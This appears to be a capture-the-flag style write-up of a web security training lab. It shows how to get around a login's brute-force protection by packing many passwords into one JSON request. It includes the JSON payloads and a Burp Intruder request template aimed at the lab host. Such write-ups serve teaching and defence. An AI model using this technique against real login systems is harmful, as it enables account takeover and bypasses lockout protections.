 # Lab: Broken brute-force protection, multiple credentials per request
## Description

1. I first submitted a simple test login request and noticed that the POST request was JSON with an additional empty key/value pair (hmmm?)
```json
{ 
	"username": "carlos",
	"password": "test",
	"": ""
}
```
2. The Lab exercise already hinted at "multiple credentials per request". So I wrote a small script that would generate a payload set containing 3 passwords within every single JSON request (note this is technically an invalid JSON payload, and the `password` parameter would usually be overwritten but I felt it was worth a try anyway). Example:
```json
{
	"username": "carlos",
	"password": "mobilemail",
	"password": "mom",
	"password": "monitor"
}
```
3. I used the custom generated [payload set](07-generate-payloads.lst) with Burp Intruder. Intruder was configured using a single thread with a 1 min. delay per request to avoid lockout.
4. Waited.......only to realize it failed.
5. I rewrote the script and attempted adding a list of passwords instead such as this
```json
{
	"username": "carlos",
	"password": ["thunder", "taylor", "matrix", "mobilemail", "mom"]
}
```
Which worked. One of the requests returned 302 Found. Yey!

## Solution
1. Use [script](07-generate-payloads.py) to generate the [payload set](07-generate-payloads.lst)
2. Configure Burp Intruder to loop through the list of credentials, max. 1 request per minute:
```
POST /login HTTP/1.1
Host: ac021f411e0cdd91c0d98b1000d90066.web-security-academy.net
Content-Length: 184

§§
```